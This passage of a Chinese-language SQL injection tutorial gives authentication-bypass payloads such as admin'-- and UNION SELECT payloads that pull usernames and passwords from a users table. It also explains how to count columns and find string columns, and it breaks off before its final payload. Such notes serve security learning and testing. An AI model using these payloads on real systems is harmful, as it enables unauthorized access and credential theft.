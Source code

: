 # SQL注入

**一般存在位置**  
数据交互或查询的地方

## 0x01 直接注入
xxx'+or+1=1--  
万能密码
admin'--

## 0x02 union联合查询
使用union可以拼接查询语句  
' union select username,password from users--  

>如果只能输出一行，让前面的查询为假来输出  
and 1=2 union select password from users--

**使用要求**：  
1. 每个请求返回列数相同
2. 数据类型要兼容每个请求

查询原始请求返回列数方法：  
1. ' order by 1  
   ' order by 2  
   ' order by 3  
   etc  
   这个语句不用知道列名，数字代表的是第几列，超过列数最大值时将报错
2. ' UNION SELECT NULL--  
   ' UNION SELECT NULL,NULL--  
   ' UNION SELECT NULL,NULL,NULL--  
   etc  
   NULL数量不对将报错，用NULL来测能保证数据类型兼容原始语句和注入语句  
>*注*:  
>1. 在Oracle数据库中，查询语句必须有select来指定数据库，可以利用内建表 **DUAL** 来绕过，例： ' UNION SELECT NULL FROM DUAL--    
>2. 在 MySQL中 --注释前必须加一个空格，或者用#也可以注释

### union找数据类型为字符串的列
猜出列数后，可以找数据类型为字符串的列  
用这样的语句,查看列是否为字符串:  
' UNION SELECT 'a',NULL,NULL,NULL--  
' UNION SELECT NULL,'a',NULL,NULL--  
' UNION SELECT NULL,NULL,'a',NULL--  
' UNION SELECT NULL,NULL,NULL,'a'--   
当列值数据类型不兼容会导致报错，如果没发生错误，说明是列值是字符串类型，可以进一步检索。

### union注入攻击检索感兴趣的数据
当确定了原始查询的返回列列数和哪一列可以兼容字符串时，我们就可以从这个位置检索感兴趣的数据。
假设：

>原始查询返回两列，每一列都兼容字符串类型  
>注入点是 WHERE 子句中带引号的字符串  
>数据库中存在一个包含 username 和 password 字段的 users 表  
>这种情况下，我们可以提交如下 payload 从 users 表中获取内容：  
